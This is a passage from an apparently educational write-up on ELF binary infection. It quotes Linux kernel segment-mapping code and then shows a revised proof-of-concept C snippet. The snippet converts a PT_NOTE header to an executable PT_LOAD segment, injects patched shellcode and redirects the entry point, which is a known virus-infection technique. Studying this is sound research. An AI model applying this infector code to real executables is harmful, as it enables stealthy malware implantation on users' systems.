 ```C
        eppnt->p_memsz;
      /*
       * Zero the end of the last mapped page but ignore
       * any errors if the segment isn't writable.
       */
      if (padzero(zero_start) && (prot & PROT_WRITE))
        return -EFAULT;
    }
  } else {
    map_addr = zero_start = ELF_PAGESTART(addr);
    zero_end = zero_start + ELF_PAGEOFFSET(eppnt->p_vaddr) +
      eppnt->p_memsz;
  }
  if (eppnt->p_memsz > eppnt->p_filesz) {
    /*
     * Map the last of the segment.
     * If the header is requesting these pages to be
     * executable, honour that (ppc32 needs this).
     */
    int error;
    zero_start = ELF_PAGEALIGN(zero_start);
    zero_end = ELF_PAGEALIGN(zero_end);
    error = vm_brk_flags(zero_start, zero_end - zero_start,
             prot & PROT_EXEC ? VM_EXEC : 0);
    if (error)
      map_addr = error;
  }
  return map_addr;
}
```

Our original proof of concept works fine. But we can rewrite the logic like this, calling the `patch` function first, getting the updated shellcode length *before modifying* `p_filesz` and `p_memsz`. I mean, if we were going to be pedantic about it.

```C
    // Patch shellcode to jump to the original entry point after finishing
    // 
    // We'll be setting e_entry to memory_offset, so we we'll pass it
    // ahead of time to the patch function 
    patch(&shellcode, &shellcode_len, memory_offset, original_entry);
    

    // After the patch function executes, our shellcode length and buffer 
    // are different. Update sc_len to the patched length to be pedantic
    // 
    uint64_t sc_len = (uint64_t)shellcode_len;

    // Look for PT_NOTE section
    for (int i = 0; i < elf_header->e_phnum; i++) {
        if (program_headers[i].p_type == PT_NOTE) {
            // Convert to a PT_LOAD section with values to load shellcode
            printf("[+] Found PT_NOTE section\n");
            printf("[+] Changing to PT_LOAD\n");
            program_headers[i].p_type = PT_LOAD;
            program_headers[i].p_flags = PF_R | PF_X;
            program_headers[i].p_offset = file_offset;
            program_headers[i].p_vaddr = memory_offset;
            program_headers[i].p_memsz += sc_len;
            program_headers[i].p_filesz += sc_len;
            // Patch the ELF header to start at the shellcode
            elf_header->e_entry = memory_offset;
            printf("[+] Patched e_entry\n");
            break;
```

[^1]: https://github.com/torvalds/linux/blob/master/include/uapi/linux/elf.h#L226
[^2]: https://man7.org/linux/man-pages/man5/elf.5.html
[^3]: https://docs.oracle.com/cd/E19683-01/817-3677/chapter6-83432/index.html
[^4]: https://elixir.bootlin.com/linux/v6.13.4/source/fs/binfmt_elf.c#L362
[^5]: https://man7.org/linux/man-pages/man2/execve.2.html
[^6]: https://man7.org/linux/man-pages/man2/brk.2.html
[^7]: https://stackoverflow.com/questions/6988487/what-does-the-brk-system-call-do
[^8]: https://elixir.bootlin.com/linux/v6.13.4/source/fs/binfmt_elf.c#L734
[^9]: https://docs.oracle.com/cd/E19683-01/816-1386/6m7qcobkp/index.html
[^10]: https://elixir.bootlin.com/glibc/glibc-2.1/source/elf/rtld.c
[^11]: https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html
[^12]: https://en.wikipedia.org/wiki/Address_space_layout_randomization#Linux
[^13]: "Note on resolving Elf_Hdr->e_entry in PIE executables." https://archive.org/details/pocorgtfo20/page/n49/mode/1up
